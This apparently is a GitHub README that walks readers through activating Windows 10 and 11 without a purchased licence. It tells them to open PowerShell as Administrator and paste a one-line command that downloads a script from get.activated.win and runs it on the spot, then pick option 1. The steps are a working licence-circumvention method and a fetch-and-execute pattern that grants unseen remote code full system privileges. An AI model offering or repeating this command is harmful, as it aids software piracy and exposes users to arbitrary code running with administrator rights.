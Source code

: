 # Window-Activation-Powershell-Command

> Windows 10 &amp; 11 Activation: 2-minute Solution Using Powershell 

#
This repository contains a way that can activate Windows 10 and 11 in few seconds. The methodes is compatible with home, home N, Home single lang, Home country specific, professional, education and enterprise versions of Windows.

# Window Activation PowerShell Command
> [!TIP]
> We have many ways to run powershell in windowss 10 & 11. [^1]

## Step 1 
All you need to do is hit the start or search icon and type the "PowerShell" in the search box.

![image](https://github.com/user-attachments/assets/9022d236-0b32-494d-b055-1b5cfc1c4dd9)

## Step 2
Next, you must click on the Run as Administrator to start PowerShell, in this case we need to run with administrative privileges.

![image](https://github.com/user-attachments/assets/d3901eb4-b130-4f18-b7a4-6d010fabe4fc)

## Step 3
Now, after a brief pause to allow for execution, please copy this line:

```CSS
irm https://get.activated.win | iex
```

## Step 4
Now paste it (with right-click) and hit the enter key. In the newly opened window, there are several options available, from which we must select option 1 and wait a few seconds to complete.



![image](https://github.com/user-attachments/assets/71aa0d37-d260-43c6-9f93-fdd33ffe93d6)
#


## Congratulations,
Windows has been activated.  
Then hit the enter key to exit the Powershell tool and close PowerShell and check windows Activation menu [^3]


[^6]: To see windows activation status you must to go:  
***Settings → Update & Security → activation menu.***

```CSS
 Ensure your internet connection is active during this process for proper activation.
```
